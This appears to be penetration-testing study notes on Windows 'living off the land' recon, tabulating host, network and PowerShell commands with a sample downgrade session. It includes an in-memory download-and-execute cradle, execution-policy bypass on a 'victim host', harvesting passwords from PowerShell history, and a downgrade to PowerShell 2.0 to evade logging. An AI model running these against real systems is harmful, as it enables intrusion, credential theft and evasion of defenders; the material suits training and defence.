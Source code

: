 ## Living Off the Land
### Env Commands For Host & Network Recon

|Command|	Result|
|:------|:--------|
|hostname|	Prints the PC's Name|
|[System.Environment]::OSVersion.Version|	Prints out the OS version and revision level|
|wmic qfe get Caption,Description,HotFixID,InstalledOn|	Prints the patches and hotfixes applied to the host|
|ipconfig /all|	Prints out network adapter state and configurations|
|set|	Displays a list of environment variables for the current session (ran from CMD-prompt)|
|echo %USERDOMAIN%|	Displays the domain name to which the host belongs (ran from CMD-prompt)|
|echo %logonserver%|	Prints out the name of the Domain controller the host checks in with (ran from CMD-prompt)|

- We can cover the information above with one command `systeminfo`.

### Harnessing PowerShell

|Cmd-Let|	Description|
|:------|:-------------|
|Get-Module|	Lists available modules loaded for use.|
|Get-ExecutionPolicy -List|	Will print the execution policy settings for each scope on a host.|
|Set-ExecutionPolicy Bypass -Scope Process|	This will change the policy for our current process using the `-Scope` parameter. Doing so will revert the policy once we vacate the process or terminate it. This is ideal because we won't be making a permanent change to the victim host.|
|Get-ChildItem Env: \| ft Key,Value	| Return environment values such as key paths, users, computer information, etc.|
|Get-Content $env:APPDATA\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt|	With this string, we can get the specified user's PowerShell history. This can be quite helpful as the command history may contain passwords or point us towards configuration files or scripts that contain passwords.|
|powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"|	This is a quick and easy way to download a file from the web using PowerShell and call it from memory.|


- Many defenders are unaware that several versions of PowerShell often exist on a host. 
- Powershell event logging was introduced as a feature with Powershell 3.0 and forward. With that in mind, we can attempt to call Powershell version 2.0 or older. 
- If successful, our actions from the shell will not be logged in Event Viewer. This is a great way for us to remain under the defenders' radar while still utilizing resources built into the hosts to our advantage. 


```powershell
# Downgrade Powershell

PS C:\htb> Get-host

Name             : ConsoleHost
Version          : 5.1.19041.1320
InstanceId       : 18ee9fb4-ac42-4dfe-85b2-61687291bbfc
UI               : System.Management.Automation.Internal.Host.InternalHostUserInterface
CurrentCulture   : en-US
CurrentUICulture : en-US
PrivateData      : Microsoft.PowerShell.ConsoleHost+ConsoleColorProxy
DebuggerEnabled  : True
IsRunspacePushed : False
Runspace         : System.Management.Automation.Runspaces.LocalRunspace

PS C:\htb> powershell.exe -version 2
Windows PowerShell
Copyright (C) 2009 Microsoft Corporation. All rights reserved.

PS C:\htb> Get-host
```